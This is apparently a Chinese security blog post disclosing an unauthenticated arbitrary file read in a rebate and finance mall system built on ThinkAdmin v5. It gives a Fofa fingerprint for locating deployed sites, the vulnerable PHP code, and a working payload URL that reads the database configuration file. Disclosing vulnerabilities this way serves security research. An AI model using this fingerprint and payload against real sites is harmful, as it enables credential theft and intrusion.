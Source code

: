 #  某返佣理财商城系统存在前台任意文件读取漏洞   
原创 Mstir  星悦安全   2024-10-03 12:11  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字关注我们 并设为  
星标  
## 0x00 前言  
  
******这****完美运行的返佣商城、分销商城和理财商城开源代码，拥有详细的教程和Vue代码脚本。****进行了测试，前台和后台的显示都非常正常，没有出现任何问题。**  
  
**Fofa指纹:"css/chunk-vendors.5802e0af.css"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dbCrmvYQn0CRq4UfnMiaoHKqFBAQWhl0zxQXAUwPoqt9BiaV4T88noicDticVOIic82C3l0aibiammyrkvg/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dbCrmvYQn0CRq4UfnMiaoHKfiaKKxmmibLoicEDQYPjbofsa1DcZvqpQpWAx5sJkNJlgRyt8eWpGbZEA/640?wx_fmt=jpeg "")  
## 0x01 漏洞分析  
  
**访问后台，发现使用的是框架实际是Thinkadmin 版本是v5，网上是有公开的历史漏洞的，不过和网上的些许不同.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dbCrmvYQn0CRq4UfnMiaoHKWl8gXn4NfOicqtf0iaP6R1dMx8FUbezMIdMTbIIiaNM3KLeeibAibUuicPpw/640?wx_fmt=png&from=appmsg "")  
  
**在 /application/admin/controller/api/Update.php 控制器中read方法存在file_get_contents函数，且$encode可控，并未有鉴权操作，导致任意文件读取.**  
```
public function read($encode)
{
    $this->file = env('root_path') . decode($encode);
    echo decode($encode);
    if (file_exists($this->file)) {
      $this->success('读取文件成功！', [
         'format'  => 'base64',
          'content' => base64_encode(file_get_contents($this->file)),
          ]);
    } else {
      $this->error('获取文件内容失败！');
    }
  }
```  
  
**不过这里decode调用的是 /vendor/zoujingli/think-library/src/tools/Crypt.php 中的方法**  
```
class Crypt
{
  /**
     * UTF8字符串加密
     * @param string $string
     * @return string
     */
  public static function encode($string)
{
    list($chars, $length) = ['', strlen($content = iconv('UTF-8', 'GBK//TRANSLIT', $string))];
    for ($i = 0; $i < $length; $i++) $chars .= str_pad(base_convert(ord($content[$i]), 10, 36), 2, 0, 0);
    return $chars;
  }
  /**
     * UTF8字符串解密
     * @param string $encode
     * @return string
     */
  public static function decode($encode)
{
    $chars = '';
    foreach (str_split($encode, 2) as $char) {
      $chars .= chr(intval(base_convert($char, 36, 10)));
    }
    return iconv('GBK//TRANSLIT', 'UTF-8', $chars);
  }
```  
  
**所以我们也需要创建一个locd方法调用encode方法去给要读取的文件路径加密一下**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dbCrmvYQn0CRq4UfnMiaoHKR1XEiaJ4dBcCpiaiaX9qAJ5rPQOtZBPUnNEYC6aw10p53GGjVSUtbIgsQ/640?wx_fmt=other&from=appmsg "")  
  
****  
**将./config/database.php 加密一下 就变成下面这一串加密的字符**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dbCrmvYQn0CRq4UfnMiaoHK9FZon8GanoHicOBQABOqhLOIuKv3B1zMz2nQHicKfic3VdCJtEqIrhJ0Q/640?wx_fmt=other&from=appmsg "")  
## 0x02 漏洞复现  
  
**Payload:**  
```
/index.php?s=/admin/api.update/read?encode=1a1b2r33322u2x2v1b2s2p382p2q2p372t1a342w34
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5dbCrmvYQn0CRq4UfnMiaoHKm13XOAqTErC6FwnwQhb6ia0ibQic2DacibqqZ5TEibwHwhiclpfAGDWwvbNQ/640?wx_fmt=other&from=appmsg "")  
  
解码出来是Base64，可以去 https://www.toolhelper.cn/EncodeDecode/Base64 解密  
  
其他的站我试了一下不太能直接解密，需要先删掉一些字符.  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**商城系统源码关注公众号发送 241003 获取!**  
  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
